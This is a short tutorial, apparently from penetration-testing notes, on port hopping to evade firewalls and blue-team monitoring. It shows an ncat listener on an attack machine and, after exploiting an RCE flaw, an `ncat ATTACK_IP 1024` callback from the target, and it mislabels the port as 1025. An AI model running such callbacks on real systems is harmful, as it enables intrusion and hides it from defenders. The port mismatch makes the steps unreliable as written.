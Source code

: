 # Evasion using port hopping

Port hopping is a technique where an application hops from one port to another till it can establish and maintain a 
connection. In other words, the application might try different ports till it can successfully establish a connection. 
Some "legitimate" applications use this technique to evade firewalls.

There is another type of port hopping where the application establishes the connection on one port and starts 
transmitting some data; after a while, it establishes a new connection on (hops to) a different port and resumes 
sending more data. The purpose is to make it more difficult for the blue team to detect and track all the exchanged 
traffic.

Set up a listener on the attack machine:

    $ ncat -lvnp 1025

Then exploit a vulnerable service that allows remote code execution (RCE) or a misconfigured system to execute some 
code with a command. As command use Netcat to connect to the target port using the command 
`ncat IP_ADDRESS PORT_NUMBER`. For example, run `ncat ATTACK_IP 1024` to connect to the attacker machine at TCP port 
`1025`. Then try another port: Change the listener and the command to match.

